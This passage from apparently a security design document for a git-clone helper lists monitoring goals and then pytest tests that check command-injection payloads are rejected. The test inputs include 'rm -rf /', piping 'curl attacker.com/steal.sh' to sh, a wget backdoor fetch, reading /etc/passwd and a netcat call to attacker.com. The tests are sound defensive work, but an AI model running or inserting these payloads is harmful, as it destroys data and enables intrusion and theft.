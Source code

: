 **Error Tracking**:
- Command execution failure monitoring with security context
- Security violation attempt tracking and correlation
- Performance impact assessment of security controls
- User behavior analysis and anomaly detection

**Health Checks**:
- Input validation effectiveness monitoring
- Command execution success rates with security controls
- Security policy compliance verification
- Threat detection system performance monitoring

### Testing Strategy

**Unit Tests**:
```python
import pytest
from unittest.mock import patch, MagicMock

class TestSecureCommandExecution:
    def test_prevents_command_injection_basic(self):
        """Test basic command injection prevention."""
        with pytest.raises(SecurityError):
            safe_git_clone('repo; rm -rf /', 'target')
    
    def test_prevents_advanced_command_injection(self):
        """Test advanced command injection prevention."""
        malicious_inputs = [
            'repo && curl attacker.com/steal.sh | sh',
            'repo || wget malicious.com/backdoor',
            'repo; export EVIL=$(cat /etc/passwd)',
            'repo`whoami`',
            'repo$(id)',
            'repo | nc attacker.com 4444'
        ]
        
        for malicious_input in malicious_inputs:
            with pytest.raises(SecurityError):
                safe_git_clone(f'https://github.com/user/{malicious_input}.git', 'target')
    
    def test_validates_trusted_domains_only(self):
        """Test that only trusted domains are allowed."""
        untrusted_urls = [
            'https://malicious.com/repo.git',
            'https://evil-github.com/user/repo.git',
            'ftp://github.com/user/repo.git',
            'http://github.com/user/repo.git'  # HTTP not allowed
        ]
        
        for url in untrusted_urls:
            assert not is_valid_git_url(url)
    
    def test_environment_sanitization(self):
        """Test environment variable sanitization."""
        env = get_secure_environment()
        
        # Should only contain safe variables
        safe_vars = ['PATH', 'HOME', 'USER', 'LANG', 'LC_ALL', 'TERM', 'GITHUB_TOKEN', 'GH_TOKEN']
        for var in env.keys():
            assert var in safe_vars
    
    @patch('subprocess.run')
    def test_secure_execution_parameters(self, mock_run):
        """Test that secure execution uses proper parameters."""
```